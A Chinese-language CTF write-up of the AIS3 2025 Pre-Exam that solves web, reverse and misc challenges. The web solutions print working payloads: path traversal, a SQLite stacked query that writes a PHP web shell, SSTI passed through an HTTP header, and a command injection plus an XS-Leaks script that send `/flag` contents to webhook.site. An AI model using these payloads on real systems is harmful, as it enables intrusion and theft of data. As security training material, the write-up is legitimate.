










+++
Title = "AIS3 2025 Pre-Exam Writeup"
Date = "2025-07-01 00:00:00 +0800 CST"
Description = ""
Tags = ["CTF", "AIS3", "Writeup"]
Categories = ["CTF"]
menu = "main"
+++

Scoreboard ID: `參加 pre-exam 之記分板上顯示的名稱`




## Web

Web 破台🎉


### Tomorin db 🐧

Solves: 282/389\
Author: naup96321\
[官方解](https://naup.mygo.tw/2025/05/31/2025-AIS3-pre-exam-MFC-official-writeup/#Tomorin-db-%F0%9F%90%A7)

⚠️ Unintended Solution



```go
package main

import "net/http"

func main() {
 http.Handle("/", http.FileServer(http.Dir("/app/Tomorin")))
 http.HandleFunc("/flag", func(w http.ResponseWriter, r *http.Request) {
  http.Redirect(w, r, "https://youtu.be/lQuWN0biOBU?si=SijTXQCn9V3j4Rl6", http.StatusFound)
 })
 http.ListenAndServe(":30000", nil)
}
```



Go HTTP Server 因為某些不明原因，在選擇 HTTP Handler 時的邏輯異常，插入 `/%2e/` 就能跳過 `/flag` 的 HandleFunc 碰到 `flag` 檔案。

```bash
curl --path-as-is "http://chals1.ais3.org:30000/%2e/flag"
```

Flag: `AIS3{G01ang_H2v3_a_c0O1_way!!!_Us3ing_C0NN3ct_M3Th07_L0l@T0m0r1n_1s_cute_D0_yo7_L0ve_t0MoRIN?}`

根據 Flag 可以看到這題的預期解與 `CONNECT` 這個 HTTP Request Method 相關，指定 Method 後的路徑能再精簡三個字元：

```bash
curl --path-as-is "http://chals1.ais3.org:30000//flag" -X CONNECT
```

### Login Screen 1

Solves: 217/389\
Author: Ching367436\
First Blood 🩸

身為 Web 狗，看到一個登入表單身體反射性地輸入了 `admin:admin`，問題在 `dashboard.php` 檢查使用者沒有通過 2FA，設定重新導向回 2FA 的 Header 後沒有 `die()`，剩餘的腳本還是會繼續執行，打開 Burp 抓 Response 就能直接拿到 Flag。


Flag: `AIS3{1.Es55y_SQL_1nJ3ct10n_w1th_2fa_IuABDADGeP0}`

另外，使用的資料庫 `users.db` 直接放在 `/var/www/html` 下，瀏覽 `/users.db` 拿到資料庫並打開即可取得 admin 的 2FA Code。



### Login Screen 2

Solves: 14/389\
Author: Ching367436

根據 PHP 的 [SQLite3::exec](https://www.php.net/manual/en/sqlite3.exec.php) 文件，我們可以看到這個 Function 的作用是：

> Executes **a** result-less query against a given database

但是實際上他會吃 Stacked Query。

首先利用 `index.php` 的登入表單將 Payload 寫到  `$_SESSION['username']`，這邊的 Stacked Query 會直接被 PHP 忽略掉，所以我們還是能用其中一組帳號密碼登入：

```php
    $username = $_POST['username'];
    $password = $_POST['password'];
    if (empty($username) || empty($password)) {
        echo "Please enter both username and password.";
    } else {
        $stmt = $db->prepare("SELECT * FROM Users WHERE username = '$username'");
        $result = $stmt->execute();
        $user = $result->fetchArray();
        if ($user) {
            if (password_verify($password, $user['password'])) {
             // 注意這裡寫入 Session 的是我們的輸入而不是資料庫的值
                $_SESSION['username'] = $username;
                header('Location: 2fa.php');
                die();
```

接下來到 `2fa.php` 隨便打一個數字觸發 `exec()`。

```php
$code = $_POST['code'];
$username = $_SESSION['username'];
$result = $db->exec("SELECT * FROM users WHERE username = '$username'");
```

利用 SQLite 一個檔案即是一個資料庫的特性，我們只要有辦法取得 Stack Query 就能 `ATTACH DATABASE` 寫入檔案，這裡只要能寫入 `<?php` 就足夠 RCE，並不需要理會 SQLite 多寫的資料。

利用以下帳號與正確的密碼登入並觸發 `exec()`（為了 Syntax Highlighting 最前面多加了一個 `'` 實際上要拿掉）：

```SQL
'guest'; ATTACH DATABASE '/var/www/html/9d4bd0240407b24b8e5.php' AS rce; CREATE TABLE rce.payload (data TEXT); INSERT INTO rce.payload (data) VALUES ('<?php echo "FLAG2: " . htmlspecialchars(getenv("FLAG2")); ?>'); --
```



Flag: `AIS3{2.Nyan_Nyan_File_upload_jWvuUeUyyKU}`

### LickLeak

Solves: 3/389\
Author: Whale120\
First Blood 🩸



```python
from flask import Flask, request, jsonify, abort, redirect
from flask_cors import CORS
import subprocess
import threading

app = Flask(__name__)
CORS(app, origins=["http://localhost:5000"])

def terminate_process(process):
    process.terminate()
    print("Process terminated after 10 minutes.")

sentences = {
    "1": "Hello, world!",
    "2": "Flask is great for web development.",
    "3": "Security is important in web applications.",
    "4": "Python is a powerful and flexible language.",
    "5": "Always sanitize user input.",
    "6": "CTF challenges improve cybersecurity skills.",
    "7": "Web applications should implement proper access controls.",
    "8": "Never trust user input blindly.",
    "9": "Debugging is a crucial part of development.",
    "10": "Use logging to monitor application behavior.",
    "11": "The flag is AIS3{fake_flag}"
}

@app.route('/search', methods=['GET'])
def search():
 if request.remote_addr != "127.0.0.1":
        abort(403)

    query = request.args.get('q')
    if not query:
        return jsonify({"error": "Query parameter 'q' is required"}), 400
    
    results = [f"<br>{sentence}</br>" for sentence in sentences.values() if query in sentence]
    
    if not results:
        return redirect("/")
    
    return jsonify({"results": results})

@app.route('/visit', methods=['GET'])
def visit():
    url = request.args.get('url')
    if url.startswith('http://') == False and url.startswith('https://') == False:
        return "Bad Hacker"
    process = subprocess.Popen(['chromium', url, '--headless', '--disable-gpu', '--no-sandbox'], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
    timer = threading.Timer(60, terminate_process, [process])
    timer.start()
    return "Admin is visiting your page!"

@app.route('/', methods=['GET'])
def main():
    return "Hello World!"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```



XSS 題，我們要想辦法 Leak 出限制只有 localhost 能存取的資訊，但題目有嚴格的 [Same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)，前端的 JavaScript Code 無法直接與其互動，題目也沒有提供能 Hosting 到同一個 Origin 的地方，我們必須要找個方法去跨 Origin 把 Flag Leak 出來。

為了開發出能在 Admin bot 跑的 Exploit，我們先把 `search()` 的 IP 檢查拿掉，並且由不同 Origin 去 Fetch 內容（測試用的 Flag 是 `AIS3{fake_flag}`）：



用 `fetch()` 從瀏覽器的錯誤能看出搜尋結果，但只從 JavaScript 無法得知。
這邊利用 [XS-Leaks](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XS-Leaks) 的技巧，利用元素去幫我們抓資料，看哪一個 Callback Function 被呼叫到就能知道這次有沒有猜對：



如果這一輪猜對了後端會回 200 給瀏覽器並附上一個正常的 JSON，但因為某些奇怪的瀏覽器特性 script tag 的 error 事件會被觸發；猜錯時會被 403 到 /，收到一串 Plain Text 並觸發 load 事件。

利用這個特性，我們能寫一個 HTML 讓 Admin Bot 執行，這邊是直接把整個 Exploit 塞進 Webhook.site 並且也用它來蒐集 Flag：

```html
<script>
async function tryChar(flag, c) {
  return new Promise((resolve) => {
    const url = `http://localhost:5000/search?q=${flag}${c}`
    const script = document.createElement('script')
    script.onload = () => resolve({ hit: false, c })
    script.onerror = () => resolve({ hit: true, c })
    script.src = url
    document.head.appendChild(script)
  })
}

async function main() {
  let flag = 'AIS3{'

  while (flag.indexOf('}') === -1) {
    for (const c of 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789/*-+_!@$%^()}{') {
      const result = await tryChar(flag, c)
      if (result.hit) {
        console.log(`Found character: ${result.c}`)
        flag += result.c
        break
      }
    }
  }

  await fetch(
    `https://webhook.site/5fb0e221-271b-400a-af90-874bbfb30e26?flag=${flag}`
  )
}
main()
</script>
```

一輪攻擊下來瀏覽器的 Network Graph 會長這樣：



Flag: `AIS3{Re7_2_fLAG_d9e8ab}`

### 🐱

Solves: 2/389\
Author: Chumy

⚠️ Unintended Solution

黑箱題，我們能用貓去貓系統上的檔案，並且 globing 會動。貓看看 `/proc/self/environ` 發現目前的 Process 沒有任何的環境變數，但是由貓 `/proc/**/environ` 的結果可以判斷 HTTP Server 是  Apache 加上 `mod_cgi`、執行的 CGI Script 是 `/cgi-bin/render` 以及連線到 `/` 時看到的貓是 `/var/www/html/index.cat`。

```conf
SERVER_SOFTWARE=Apache/2.4.62 (Debian)
DOCUMENT_ROOT=/var/www/html
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SCRIPT_FILENAME=/usr/lib/cgi-bin/render
PATH_INFO=/cgi-bin/render/index.cat
REDIRECT_HANDLER=application/x-httpd-cat
```

把 `/usr/lib/cgi-bin/render` 貓下來看：

```python
#!/usr/bin/env python3

import sys
import os
import re
from pathlib import Path
from jinja2 import Template

sys.stdout.write("Content-type: text/html; charset=utf8\n\n")
if "PATH_INFO" not in os.environ:
    exit()

pathinfo = re.sub(r".*/" + os.path.basename(sys.argv[0]), "", os.environ["PATH_INFO"])
pathinfo = re.sub(r"^/*", "", pathinfo)
root = os.environ["DOCUMENT_ROOT"]

os.chdir(root)

path = os.path.join(root, pathinfo)
path = Path(path)
root = Path(root)

if not path.resolve().is_relative_to(root.resolve()):
    exit()

with open(path, 'r') as f:
    data = f.read()
result = Template(data).render(builtins=__builtins__)
sys.stdout.write(result)
```

可以看到我們只要能寫入貓到 `/var/www/html` 底下，就能被這個 CGI Script 執行並且 SSTI。貓
`/var/www/html/index.cat`（或是直接貓 `*`）可以看到：

```python
  
  
  
  
    
    
    
    
    
        
            
        
    
    
        {{ os.popen("echo | env -i cat " + catfile).buffer.read().decode('utf8', 'ignore') }}
    
        <p>Bad hacker bad 🐱</p>
    
  
```

結合 `mod_cgi` 在處裡 Request 時會把所有的 HTTP Request Header 用環境變數的方式設定到 Process 這件事，我們能用來繞過 Filter 把 Payload 貓進目標：

```bash
curl "http://55f86cf0bd234865a313b9b5044d33b90.cat.chummy.tw:29999" --header "HACKER-NEKO:<h1>SSTI</h1>{{ builtins.__import__('os').popen('/readflag').buffer.read().decode('utf8', 'ignore') }}" --data-raw 'cat= /proc/**/environ > /var/www/html/neko' --output /dev/null
```



Flag: `AIS3{mEoW~m3Ow~Me0W~m30W~M3ow~M3OW~524368e6a58cac99}`

這裡觸發 SSTI 時使用的 `/cgi-bin/render/neko` 是非預期解，預期的解法是在 Apache 的設定檔中貓到觸發 `/cgi-bin/render` 的這段設定：

```php
RewriteEngine On
RewriteRule ^(.+.cat)$ - [H=application/x-httpd-cat,END]
Action application/x-httpd-cat /cgi-bin/render
```

其中的 `RewriteRule` 設定錯誤，第二個 `.` 沒有被 Escape，導致語意變成只需要一個或多個任意字元接上 `cat` 就可以把 Content Type 改成 `x-httpd-cat`，這可以用來繞過 `index.cat` 中我們無法貓檔案到有 `.` 的 Filter（也就是說，預期解是把貓貓到 `nekocat` 並且直接用瀏覽器去貓，在沒有這個漏洞的情況下我們要把貓貓到 `neko.cat` 但會遇到貓貓的貓名不能有 `.` 的 Filter）。

### Board Board

Solves: 1/389\
Author: Ching367436

First Blood 🩸



```java
// Extend HttpServlet class
public class ChangePassword extends HttpServlet {
 private String password;
 // Calculate sha256 using built-in bash command, will save the temp password
 public static String sha256(String password) {
  try {
   String[] cmd = {
    "/bin/bash",
    "-c",
    "echo -n '" + password + "' | sha256sum"
   };
   Process p = Runtime.getRuntime().exec(cmd);
   BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
   return reader.readLine().split(" ")[0];
  } catch (IOException e) {
   e.printStackTrace();
  }
  return null;
 }
 public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
  // Set message to the message parameter if it is not null.
  if (request.getParameter("newPassword") != null) {
   password = request.getParameter("newPassword");
  }
  // if Password contains `'` redirect to https://youtu.be/_NC_pqMt5rY
  if (password.contains("'")) {
   response.sendRedirect("https://youtu.be/_NC_pqMt5rY");
   return;
  }
  // Calculate sha256 of the password
  // Note that this function is very expensive since it uses syscalls, so we sleep for 100ms to prevent DoS
  Thread.sleep(100);
  String hashedPassword = sha256(password);
     // 略
 }
}
```



Hint 1：推薦多多注意語言特性\
Hint 2：（好像有個 Command Injection 可以用（？

Tomcat 應用程式中的其中一個 Servlet，`'` 在 Bash 中無法被 `\` 和 `'` 以外的字元 Escape，並且內容物會完全被當作字串看待，除非我們能繞過 `'` 的檢查不然無法達成 Command Injection。

問題在於，Java 只會建立一個 Servlet Instance，不同 Thread 跟不同 Request 之間會共用這個 Instance 的 Member variable，所以只要在一個 Request 通過檢查後的 100 ms 之內覆蓋掉 `password` 就能達成 RCE。

```typescript
const target = 'http://14f6aea68e334512b2083d4896b235200.board-board.ctftime.uk:36363'
const webhook = 'https://webhook.site/5fb0e221-271b-400a-af90-874bbfb30e26'
const verbose = true

const attacks: Promise<Response>[] = []

// Get session
const login = await fetch(`${target}/admin/login.php`, {
  headers: {
    'content-type': 'application/x-www-form-urlencoded',
  },
  body: 'username=admin&password=admin',
  method: 'POST',
  verbose,
})
const cookie = login.headers.get('set-cookie')?.split(';')[0] || ''

// "Good" Password
attacks.push(
  fetch(`${target}/admin/ChangePassword`, {
    headers: {
      'content-type': 'application/x-www-form-urlencoded',
      cookie,
    },
    body: `oldPassword=a&newPassword=abc`,
    method: 'POST',
    redirect: 'manual',
    verbose,
  })
)

// Evil Password
attacks.push(
  fetch(`${target}/admin/ChangePassword`, {
    headers: {
      'content-type': 'application/x-www-form-urlencoded',
      cookie,
    },
    body: `oldPassword=a&newPassword=';curl ${webhook}?flag=$(cat /flag | base64); echo 'hi`,
    method: 'POST',
    redirect: 'manual',
    verbose,
  })
)

await Promise.all(attacks)
```

Webhook 取得資料 `QUlTM3tZb3VfQXIzX3MwX2Y0cjNkX1RoNHRfeTB1X2M0bl81ZWVfdGgzXzVlY3JlN30=`

Flag: `AIS3{You_Ar3_s0_f4r3d_Th4t_y0u_c4n_5ee_th3_5ecre7}`

## Reverse

### AIS3 Tiny Server - Reverse

Solves: 164/389\
Author: pwn2ooown

把 Ghidra 打開把 看起來像是 Flag Checker 的部分丟給 ChatGPT（GPT-4o btw）拿到了以下的解題腳本：

```python
cipher = [
    0x33, 0x20, 0x38, 0x58, 0x12, 0x28, 0x5c, 0x47, 0x29, 0x52, 0x2d, 0x0f, 0x5a,
    0x0a, 0x0e, 0x00, 0x0f, 0x58, 0x13, 0x50, 0x19, 0x5a, 0x19, 0x34, 0x58, 0x31,
    0x33, 0x43, 0x13, 0x41, 0x04, 0x5a, 0x19, 0x34, 0x58, 0x2c, 0x33, 0x53, 0x46,
    0x03, 0x1e, 0x48, 0x4a, 0x4a, 0x14
]
key = b"rikki_l0v3"
flag = []

bVar5 = 0x33
for i in range(0x2d):
    bVar1 = key[i % len(key)]
    decoded_byte = bVar1 ^ bVar5
    flag.append(decoded_byte)
    if i + 1 < len(cipher):
        bVar5 = cipher[i + 1]

print("Flag:", bytes(flag).decode())
```

Flag: `AIS3{w0w_a_f1ag_check3r_1n_serv3r_1s_c00l!!!}`

## Misc

### AIS3 Tiny Server - Web / Misc

Solves: 147/389\
Author: pwn2ooown

來自 [7890/tiny-web-server](https://github.com/7890/tiny-web-server)，用 C 寫的 web server。\
試試看點點斜：

```bash
curl --path-as-is "http://chals1.ais3.org:20899/../../../"
<html><head><style>body{font-family: monospace; font-size: 13px;}td {padding: 1.5px 6px;}</style></head><body><table>
<tr><td><a href="readable_flag_mbKKyj6z2pTclfi9stKJd3tCvjxkRuf9">readable_flag_mbKKyj6z2pTclfi9stKJd3tCvjxkRuf9</a></td><td>2025-05-25 12:47</td><td>54</td></tr>
<tr><td><a href=".dockerenv">.dockerenv</a></td><td>2025-05-25 12:47</td><td>0</td></tr>
</table></body></html>
curl --path-as-is "http://chals1.ais3.org:20899/../../../readable_flag_mbKKyj6z2pTclfi9stKJd3tCvjxkRuf9"
AIS3{tInY_WeB_SeRveR_WiTH_fIl3_BrOWs1n9_45_@_featuRe}
```

Flag: `AIS3{tInY_WeB_SeRveR_WiTH_fIl3_BrOWs1n9_45_@_featuRe}`

### Welcome

Solves: 386/389\
Author: Curious





~~ChatGPT GPT-4o 大勝 Gemini 2.5 Pro~~

Flag: `AIS3{Welcome_And_Enjoy_The_CTF_!}`

### Ramen CTF

Solves: 329/389\
Author: Whale120


凌晨寫 Writeup 肚子好餓


右上角有個電子發票，拿去掃描後對照 [電子發票證明聯一維及二維條碼規格說明](https://www.einvoice.nat.gov.tw/static/ptl/ein_upload/attachments/1479449792874_0.6(20161115).pdf) 解讀資訊：

```text
發票字軌號碼：MF16879911
開立發票日期：1140413
隨機碼：7095
銷售額：000001f4
總計額：000001f4
買方統一編號：00000000
賣方統一編號：34785923
加密驗證資訊：VG9sG89nFznfPnKYFRlsoA==
:**********:2:2:1:
品名：蝦拉
```

拿統一編號去搜尋後可以找到 [平和溫泉拉麵店](https://www.twincn.com/item.aspx?no=34785923) 和他的登記地址，但拿地址到 Google Maps 上看時會發現實際上的店名是 [樂山溫泉拉麵](https://maps.app.goo.gl/8ETF3FxTFp8dtuR3A)。


打開 Google 地圖上的菜單後，可以看到最接近蝦拉的品項是蝦拉麵。


Flag: `AIS3{樂山溫泉拉麵:蝦拉麵}`
